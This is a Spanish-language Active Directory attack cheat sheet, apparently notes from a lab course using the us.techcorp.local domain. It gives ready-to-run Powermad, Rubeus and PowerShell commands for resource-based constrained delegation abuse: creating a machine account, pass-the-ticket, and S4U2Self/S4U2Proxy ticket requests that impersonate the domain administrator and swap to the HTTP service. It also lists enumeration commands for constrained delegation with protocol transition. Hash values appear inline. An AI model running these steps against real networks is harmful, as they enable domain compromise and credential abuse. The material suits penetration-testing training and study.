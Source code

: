 ```
### Crear una nueva Cuenta de Máquina mediante Powermad
C:\AD\Tools\Powermad\Powermad.ps1 New-MachineAccount -MachineAccount studentcompX
```

- Ya hemos comprometido us-mgmt.
- Configure RBCD en us-mgmt utilizando la cuenta de equipo us-mgmt$.

```
### PTT
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap

### Configurar RBCD sobre us-mgmt hacia studentcomp76
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcomp76$ -Verbose
```

- Ahora se puede aprovechar la cuenta de studentcomp76 para invocar S4U2Self y S4U2Proxy.
- El resultado es un ST completamente valido en nombre de la persona que queramos para acceder a us-mgmt (máquina con Constrained Delegation).

```
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123
C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$
/rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

- Usando el ST forwardable, se solicita un nuevo ST pero esta vez para el servicio HTTP en ``us-mssql.us.techcorp.local``
- Tener en cuenta que el valor de ``msdsspn`` depende de cómo esté configurado us-mgmt.

```
### Solicitar un nuevo ST mediante el uso del ticket anterior
### S42UProxy
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$
/aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt

### Acceda a us-mssql utilizando WinRM como administrador del dominio.
```

### Kerberos Delegation - Constrained Delegation (Protocol Transition)

#### Enumeración

- La cuenta de servicio tiene la característica ``TRUSTED_TO_AUTH_FOR_DELEGATION``

```
### Constrained Delegation
### PowerView
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth

### Modulo ActiveDirectory
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
#### Explotación
